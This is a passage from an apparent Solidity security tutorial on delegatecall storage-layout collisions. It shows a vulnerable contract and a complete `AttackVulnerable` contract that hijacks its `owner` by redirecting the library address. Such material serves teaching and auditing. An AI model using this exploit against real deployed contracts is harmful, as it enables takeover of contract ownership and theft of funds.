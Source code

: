 In the second contract called `Vulnerable`, three state variables are defined. These are `lib`, `owner`, `num`. The contract assigns the value of `lib` to the address of the `Lib` contract. It also sets the value of `owner` to `msg.sender`. Both of these operations are done in the constructor. Have a look:

```solidity
 constructor(address _lib) {
        lib = _lib;
        owner = msg.sender;
    }
```

Finally, the `Vulnerable` contract also has a function called `performOperation()` which takes in a unit, just like `Lib.performOperation()`. `Vulnerable.performOperation()` makes a `delegatecall` using the address of the `Lib` contract. Inside the `delegatecall`, it makes a request to the `performOperation()` function inside the `Lib` contract.

Now, let us make some observations. We first notice that the contract `Lib` declares only one state variable, but the contract `Vulnerable` declares three state variables.

This is the weak spot where any attacker will try to start exploiting the contract, `Vulnerable`.

As we did in the last example, let us see how the owner of the `Vulnerable` contract can be hijacked because of this mistake. Take a look at this contract written to attack the `Vulnerable` contract:

```solidity
contract AttackVulnerable {

    address public lib;
    address public owner;
    uint public num;

    Vulnerable public vulnerable;

    constructor(Vulnerable _vulnerable) {
        vulnerable = Vulnerable(_vulnerable);
    }

    function attack() public {
        vulnerable.performOperation(uint(address(this)));
        vulnerable.performOperation(9);
    }

    // function signature must match Vulnerable.performOperation()
    function performOperation(uint _num) public {
        owner = msg.sender;
    }
}
```

From the above code, our attacker is the contract called `AttackVulnerable`. The first thing we observe is that this contract has three state variables. These variables are in the same layout as the ones in the `Vulnerable` contract. It also has a state variable that holds the address of the `Vulnerable` contract. The actual value of the variable is assigned in the constructor
